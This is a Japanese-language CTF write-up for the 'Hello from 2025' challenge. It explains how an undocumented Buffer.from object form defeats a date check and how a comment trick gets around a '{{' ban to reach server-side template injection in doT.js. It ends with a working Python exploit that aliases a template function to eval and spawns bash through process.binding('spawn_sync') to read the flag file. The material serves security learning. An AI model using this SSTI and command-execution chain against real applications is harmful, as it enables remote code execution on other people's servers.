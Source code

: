 # Hello from 2025

## Description
Happy new year!
Please test on your local machine before attempting on remote.

## Writeup

Node.jsにおける`Buffer.from`は、様々な引数の型を受け取る。公式ドキュメントには記載されていないが、以下の形式もその一つである。([参考](https://github.com/nodejs/node/blob/413975a580429585fbbf1e6d3bf55179b2b1e075/lib/buffer.js#L537))

```js
// <Buffer 61 62 63>
Buffer.from({
    type: "Buffer",
    data: [0x61, 0x62, 0x63]
})
```

`/now`のエンドポイントを利用して、`new Date().toString()`を行った時のフォーマットを知ることができる。これを利用して、`Buffer.from(user)`の値と`Buffer.from(new Date('2025-01-01T00:00:00'))`の値が一致するような入力を行うことができる。

これにより、doT.jsのSSTIを行うことができるようになる。doT.jsは、`{{<式>}}`の形式で任意コード実行ができる。しかし、`{{`と`}}`が禁止されている。

doT.jsの[ソースコード](https://github.com/olado/doT/blob/031d3bb7520eed6b93886df2b650b7fce12a7007/doT.js#L98)をよく読むと、`/*...*/`のような形式のコメントが、テンプレートの解釈前に取り除かれていることがわかる。これにより、`{/**/{<式>}/**/}`の形式でコードを実行することができる。

`(`と`)`を利用せずに関数を呼び出すには、関数内で定義されている`escapeHTML`を`{{=escapeHTML=eval}}`で呼び出し、`{{!it.x}}`で実行することができる。

これにより、任意のJavascriptコードを呼び出すことができる。

```python
import requests

URL = "http://localhost:1337/"

r = requests.get(URL + "now")
print(r.text)

cmd = 'cat /flag-*'
data = {
    "type": "Buffer",
    "data": list("Wed Jan 01 2025 00:00:00 GMT+0000 (Coordinated Universal Time)".encode()), 
    "template": "{/**/{=encodeHTML=eval}/**/}{/**/{!it.x}/**/}",
    "x": """process.binding('spawn_sync').spawn({
    file: 'bash',
    args: ['bash','-c', '%s'], 
    stdio: [
        { type: 'pipe', readable: true, writable: true },
        { type: 'pipe', readable: true, writable: true }
    ],
}).output + ''""" % cmd
}
r = requests.post(URL, json=data)
print(r.text)
```